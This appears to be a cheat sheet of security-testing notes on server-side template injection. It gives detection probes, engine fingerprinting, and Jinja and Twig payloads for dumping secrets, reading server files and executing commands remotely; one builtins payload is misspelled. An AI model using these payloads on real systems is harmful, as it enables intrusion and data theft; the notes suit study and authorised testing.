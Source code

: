 # Server Side Template Injection (SSTI)

## Is the Web App Vulnerable?
Inject the following string:
`${{<%[%'"}}%\\.`
If it causes an error then the application might be vulnerable.

## Identifying the Template Engine
Start by injecting the payload `{7*7}`, then follow the diagram from left to right depending on the result of the injection.
- Green = successful arrow
- Red = unsuccessful arrow
A successful result for `{7*7}` would be if you see `49` rendered on the web page. That means you have successfully injected a payload.

![SSTI Diagram](ssti-diagram.webp)

## Jinja Exploitation
Jinja is a Python templating engine that is usually used with either Flask or Django. The payloads below are targeted at Flask applications. If the payloads do not work check if the app is built with Python and Django.
### Show Application Configuration
This might show secret keys, API keys, or even database or other types of passwords.
`{{config.items()}}`
### Dump All Available Built-in Functions
`{{self.__init__.__globals__.__buitlins__}}`
### Reading System Files
You can read files on the server's filesystem such as the users file or any other files (like a flag for the CTF).
`{{self.__init__.__globals__.__builtins__.open("<filename>").read()}}`
### Remote Code Execution (RCE)
This will allow you to run commands on the server which is very dangerous.
`{{self.__init__.__globals__.__builtins__.__import__('os').popen('<command-to-run>').read()}}`

## Exploiting Twig
Twig is a PHP templating engine, so if you know that the web app is built with PHP it is worth trying.
### Application Information
`{{_self}}`
It might not show a lot of information but it is worth a try.
### Reading System Files
`{{"<filename>"|file_excerpt(1,-1)}}`
### Remote Code Execution (RCE)
`{{['<command-to-run>']|filter('system')}}`

**Note: If you are sending the payloads above as part of request parameters you might have to double encode the characters (in burpsuite highlight the payload and press Ctrl+U 2 times.**

## Extra Resources
- [Jinja Payloads](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
